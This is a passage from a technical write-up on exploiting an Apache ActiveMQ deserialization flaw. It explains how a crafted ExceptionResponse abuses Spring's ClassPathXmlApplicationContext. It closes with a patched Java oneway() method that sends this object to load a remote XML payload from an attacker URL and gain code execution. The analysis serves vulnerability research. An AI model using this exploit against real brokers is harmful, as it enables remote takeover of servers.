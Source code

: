 The `oneway()` call is the minimalist because it only requires the command object as argument and it invokes the `marshal()` function correctly.

<br/>

<i>`org.apache.activemq.transport.tcp.TcpTransport.oneway()`</i>
![](/articles/media/activemq-oneway.jpg)

We can patch this function by writing our own implementation of it such that it creates the malicious `ExceptionResponse` object with necessary values for class name and message value.

As this part is sorted, how to create a malicious `ExceptionResponse` object and what class name and message value should we put in the payload in order to achieve code execution?

As we observed in the `createThrowable()`, the class name (lets say `className`) and exception message value (lets say `msg`) would be used for creation of object which would be equivalent to running:
```java
className obj = new className(msg)
```

One thing to note here is that we can only initialize an object and pass one constructor value, but we can't call any function on that object. So what type of class name and message value should we use?  
Since ActiveMQ depends on spring, we can utilize an intersting gadget function [ClassPathXmlApplicationContext()](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/ClassPathXmlApplicationContext.html) which allows to load the definitions of the beans from a local/remote XML file. In simple words, It helps you in initializing an object with its state loaded from a remote XML file. Some examples of this function can be found [here](https://www.baeldung.com/spring-classpathxmlapplicationcontext).

So this is how our final patched version of `oneway()` would look like:
```java
public void oneway(Object command) throws IOException {
    checkStarted();
    System.out.println("[+] Inside patched oneway()");
    String VPS_URL = "http://127.0.0.1:8000/poc.xml";
    Throwable maliciousThrowableObject = new ClassPathXmlApplicationContext(VPS_URL);
    ExceptionResponse er = new ExceptionResponse(maliciousThrowableObject);
    wireFormat.marshal(er, dataOut);
    dataOut.flush();
}
```
